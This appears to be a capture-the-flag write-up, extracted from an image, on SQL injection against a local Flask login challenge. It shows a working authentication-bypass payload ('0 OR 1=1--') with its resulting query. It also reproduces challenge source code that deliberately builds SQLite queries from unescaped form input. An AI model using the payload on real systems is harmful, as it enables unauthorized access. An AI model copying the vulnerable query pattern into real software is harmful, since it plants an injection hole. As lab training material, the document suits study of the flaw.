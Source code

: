 ```

SELECT rowid, * FROM users WHERE username = '{username}' AND pin = { pin }

payload1 = admin
payload2 = 0 OR 1=1--
Executed: "SELECT rowid, * FROM users WHERE username = 'admin' AND pin = 0 OR 1=1--"

1=1 is always true. So SQL think of this as the username of admin, and a pin which is true i.e. we authenticate as admin.
```

**SQLi 2:**
```python
..
@app.route("/user-login", methods=["POST"])
def challenge_post():
    username = flask.request.form.get("user")
    password = flask.request.form.get("security-token")
    if not username:
        flask.abort(400, "Missing `user` form parameter")
    if not password:
        flask.abort(400, "Missing `security-token` form parameter")

    try:
        # https://www.sqlite.org/lang_select.html
        query = f"SELECT rowid, * FROM users WHERE username = '{username}' AND password = '{ password }'"
        print(f"DEBUG: {query=}")
        user = db.execute(query).fetchone()
    except sqlite3.Error as e:
        flask.abort(500, f"Query: {query}\nError: {e}")

    if not user:
        flask.abort(403, "Invalid username or password")

    flask.session["user"] = username
    return flask.redirect(flask.request.path)


@app.route("/user-login", methods=["GET"])
def challenge_get():
    if not (username := flask.session.get("user", None)):
        page = "<html><body>Welcome to the login service! Please log in as admin to get the flag."
    else:
        page = f"<html><body>Hello, {username}!"
        if username == "admin":
            page += "<br>Here is your flag: " + open("/flag").read()

    return (
        page
        + """
        <hr>
        <form method=post>
        User:<input type=text name=user>Password:<input type=text name=security-token><input type=submit value=Submit>
        </form>
        </body></html>
    """
    )


app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = f"challenge.localhost:80"
app.run("challenge.localhost", 80)
```